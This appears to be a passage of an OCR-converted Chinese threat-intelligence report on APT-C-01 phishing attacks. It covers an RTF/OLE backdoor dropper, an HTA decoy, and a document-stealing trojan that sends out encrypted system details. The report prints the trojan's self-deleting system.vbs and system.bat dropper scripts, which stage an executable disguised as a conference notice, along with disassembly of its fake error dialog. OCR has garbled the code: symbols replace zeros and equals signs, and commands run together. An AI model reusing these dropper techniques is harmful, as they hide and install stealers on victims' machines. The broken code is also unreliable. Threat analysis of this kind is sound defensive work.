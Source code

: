 ![](https://cdn-mineru.openxlab.org.cn/extract/f9a250dd-99f5-4605-a67a-cbf0427b18ba/f32ae9fc8d194480c7d91d506d80b3ec91f3ddd2775c0dbb005442426fa5ab0b.jpg)  

恶意的rtf文件中包含一个OLE对象，当rtf运行时，释放后门到%temp%目录下，利用hta文件启动后门程序。  

hta文件会删除自身，然后启动真实的rtf文档欺骗用户，最后释放下一阶段植入物到%tmp%\svchost_.tmp执行。hta脚本执行的命令如下:  

### 投递各类窃密木马  

2020年3月，我们发现APT-C-01利用钓鱼邮件投递最新的窃密木马进行了多起攻击活动，攻击者利用钓鱼邮件携带恶意附件，附件为压缩包，其中包含APT-C-01的新窃密木马程序。  

木马程序主要功能为获取目标计算机信息以及窃取特定文件名后缀的文档资料。木马程序在启动之后，在%temp%目录中释放system.vbs和system.bat文件，调用ShellExecute执行system.vbs文件。 system.vbs文件执行system.bat。 system.bat文件复制木马程序到%temp%目录。  

#### system.vbs的文件内容  

<html><body><table><tr><td>0036E6A4</td><td>00000000</td><td></td></tr><tr><td>0036E6A8</td><td>00000000</td><td></td></tr><tr><td>0036E6AC</td><td>0036EEC8</td><td>'c:\\Users\\ADMINI~1\\AppData\\Local\\Temp\\system.vbs</td></tr><tr><td>0036E6B0</td><td>00000000</td><td></td></tr><tr><td>0036E6B4</td><td>00000000</td><td></td></tr><tr><td>0036E6B8</td><td>00000005</td><td></td></tr><tr><td>0036E6BC</td><td>00000000</td><td></td></tr><tr><td>0036E6C0</td><td>555C3A43</td><td></td></tr><tr><td>0036E6C4</td><td>73726573</td><td></td></tr></table></body></html>  

OnErrorResumeNext   
set ws=WScript.CreateObject("WScript.Shell")   
ws.Run"C:\Users\ADMINI\~1\AppData\Local\Temp\system.bat",θ   
setfso $\Bumpeq$ CreateObject("Scripting.FileSystemobject")   
f = fso.DeleteFile("C:\Users\ADMINI\~1\AppData\Local\Temp\system.vbs")  

#### system.bat文件内容  

move C:\Users\ADMINI\~1\AppData\Local\Temp\360zip\$Temp\360\$e\第二届国防大数据高峰论坛-会议通知.execopy C:\Users\ADMINI\~1\AppData\Local\Temp\第二届国防大数据高峰论坛-会议通知.exe C:\Users\ADMINI\~1\delC:\Users\ADMINI\~1\AppData\Local\Temp\system.bat  

#### 木马程序会弹出一个对话框，用于迷惑中招用户  

.rdata:00421D58 Caption: ；DATA XREF:_main+166↑o   
rdata:00421D58 text"UTF-16LE"，‘错误',θ   
rdata:00421D5E db   
rdata:00421D5F db 0   
.rdata:00421D60；constWCHARText   
rdata:00421D60 Text: ；DATAXREF:_main+16B↑o   
rdata:00421D60 text"UTF-16LE"，'这个档案未知或者数据已经被损坏',0   
rdata:00421D80:CHARaAugo[1  

![](https://cdn-mineru.openxlab.org.cn/extract/f9a250dd-99f5-4605-a67a-cbf0427b18ba/a9ab8485aae3c6dd8131030e1eed741c3e0a72eda7c5738de347b4a74b4a0b8c.jpg)  

然后通过注册表获得中招计算机的ProductName，DisplayName等信息，加密后发送。  
